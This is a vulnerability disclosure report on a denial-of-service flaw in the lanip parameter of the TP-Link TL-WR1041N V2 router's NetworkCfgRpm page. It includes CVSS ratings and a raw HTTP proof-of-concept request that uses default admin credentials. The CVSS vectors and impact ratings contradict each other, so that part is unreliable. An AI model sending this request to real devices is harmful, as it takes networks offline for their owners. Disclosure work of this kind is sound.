





# TP-Link TL-WR1041N wireless router /userRpm/NetworkCfgRpm denial of service vulnerability

## 1 Basic Information

- Vulnerability Type: Denial of Service
- Vulnerability Description: A denial of service vulnerability exists in TP-Link TL-WR1041N V2 wireless router. Its /userRpm/NetworkCfgRpm component has a security vulnerability in processing lanip GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing denial of service.
- Device model:
  - TP-Link TL-WR1041N V2

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

```http
GET /userRpm/NetworkCfgRpm.htm?lanip=192.168.1.3&aaa&&lanmask=2&inputMask=255.255.255.0&Save=%B1%A3+%B4%E6 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/NetworkCfgRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/NetworkCfgRpm component has a security vulnerability in processing the lanip GET key parameter. The lanip parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the lanip parameter, so that the carefully constructed parameter causes a denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:







After sending the constructed PoC, denial of service occurred.





## 5. The basis for judging as a 0-day vulnerability

Search for NetworkCfgRpm keywords in the NVD database and find no vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).

Search for NetworkCfgRpm keywords in the CNVD database did not find any vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).